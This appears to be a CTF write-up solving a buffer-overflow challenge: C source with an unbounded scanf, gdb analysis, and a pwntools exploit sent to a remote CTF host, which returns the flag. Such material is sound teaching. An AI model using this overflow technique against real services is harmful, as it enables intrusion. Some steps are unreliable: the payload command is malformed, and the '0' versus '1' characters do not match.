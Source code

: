 So let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h> 
#include "pwnable_harness.h"

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

void handle_connection(int sock) {
	int correct = 0;
	char bof[64];
	
	scanf("%s", bof);
	
	if(correct != 0xdeadbeef) {
		puts("you suck!");
		exit(0);
	}
	
	win();
}


int main(int argc, char** argv) {
	/* Defaults: Run on port 9001 for 30 seconds as user "ctf_bof2" in a chroot */
	server_options opts = {
		.user = "ctf_bof2",
		.chrooted = true,
		.port = 9001,
		.time_limit_seconds = 30
	};
	
	return server_main(argc, argv, opts, &handle_connection);
}
```

So from the looks of this, it seems like it is a program that just accepts imput, checks to see if a variable that you have no direct input is equal to the hex value "0xdeadbeef", and if it is it gives you the flag.
This program is vulnerable to a buffer overflow attack.

```
	char bof[64];
	
	scanf("%s", bof)
```

Right there in the code, it designates a space for the scanf function to write to, which is 64 characters. The thing is it isn't defined how much data can be writen to the buffer. So it is possible to write over 64 characters, and to start overwriting various values on the stack such as the correct variavle.
The first step in solving this will be to find the amount of data we will need to input, before we can start overwriting correct. it should be 64 since that is the size of the buffer and the buffer is so close to the correct variable, but let's confirm it.

First we need to make a payload contating 65 "1" which we will feed to the program in gdb

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/bof2$ echo python -c 'print "0"*65 > /tmp/payload
```

Now we open it in gdb, and disassemble the vulnerable function, and set a breakpoint for the if then statement.

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/bof2$ gdb ./bof2
gdb-peda$ disas handle_connection 
Dump of assembler code for function handle_connection:
   0x0804870d <+0>:	push   ebp
   0x0804870e <+1>:	mov    ebp,esp
   0x08048710 <+3>:	sub    esp,0x58
   0x08048713 <+6>:	mov    DWORD PTR [ebp-0xc],0x0
   0x0804871a <+13>:	sub    esp,0x8
   0x0804871d <+16>:	lea    eax,[ebp-0x4c]
   0x08048720 <+19>:	push   eax
   0x08048721 <+20>:	push   0x8048850
   0x08048726 <+25>:	call   0x8048580 <__isoc99_scanf@plt>
   0x0804872b <+30>:	add    esp,0x10
   0x0804872e <+33>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x08048735 <+40>:	je     0x8048751 <handle_connection+68>
   0x08048737 <+42>:	sub    esp,0xc
   0x0804873a <+45>:	push   0x8048853
   0x0804873f <+50>:	call   0x8048530 <puts@plt>
   0x08048744 <+55>:	add    esp,0x10
   0x08048747 <+58>:	sub    esp,0xc
   0x0804874a <+61>:	push   0x0
   0x0804874c <+63>:	call   0x8048540 <exit@plt>
   0x08048751 <+68>:	call   0x804869b <win>
   0x08048756 <+73>:	nop
   0x08048757 <+74>:	leave  
   0x08048758 <+75>:	ret    
End of assembler dump.
gdb-peda$ b *handle_connection+33
```

Now we run the program with the payload we just made, and evaluate the register which is storing the data which will be evaluated to see if the payload overwrote it (if our previous predictions were right it should be "1").

```
gdb-peda$ r < /tmp/payload
Breakpoint 1, 0x0804872e in handle_connection ()
gdb-peda$ x $ebp-0xc
0xffffceec:	"1"
```

As you can see, it is indeed "1". This means that our prediciton was right and that the distance to start overwriting the value which will be evaluated is 64. Now time to write and exploit for this using python.

```
#Import pwntools
from pwn import *

#Establish the remote connection
conn = remote('ctf.hackucf.org', 9001)

#Make the payload, send 0xdeadbeef over in little endian so the elf will read it properly
payload = "0"*64 + "\xef\xbe\xad\xde"

#Send the payload
conn.sendline(payload)

#Print the flag
print conn.recvline()
```

And now we run the exploit.

```
guyinatuxedo@tux:/Hackery/ctf/ucf/pwn/bof2$ python exploit.py 
[+] Opening connection to ctf.hackucf.org on port 9001: Done
flag{buffers_and_beef_make_for_a_yummie_pwn_steak}

[*] Closed connection to ctf.hackucf.org port 9001
```

And just like that, we pwn the elf



